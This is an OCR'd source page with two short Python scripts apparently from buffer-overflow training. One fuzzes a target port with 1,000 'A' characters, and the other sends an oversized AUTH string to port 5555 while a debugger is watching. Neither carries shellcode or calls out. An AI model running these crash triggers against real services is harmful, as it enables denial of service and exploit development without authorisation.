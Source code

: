 

```
################ sample 1 ################################################
#!/usr/bin/python

import socket,sys

if len(sys.argv) != 3:
    print("usage: python fuzzer.py 10.11.1.111 PORT")
    exit(1)

payload = "A" * 1000

ipAddress = sys.argv[1]
port = int(sys.argv[2])

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ipAddress, port))
    s.recv(1024)
    print "Sending payload"
    s.send(payload)
    print "Done"
    s.close()
except:
    print "Error"
    sys.exit(0)

################ sample 2 ################################################
#!/usr/bin/python
import time, struct, sys
import socket as so

try:
    server = sys.argv[1]
    port = 5555
except IndexError:
    print "[+] Usage %s host" % sys.argv[0]
    sys.exit()

req1 = "AUTH " + "\x41"*1072
s = so.socket(so.AF_INET, so.SOCK_STREAM)
try:
     s.connect((server, port))
     print repr(s.recv(1024))
     s.send(req1)
     print repr(s.recv(1024))
except:
     print "[!] connection refused, check debugger"
s.close()
```
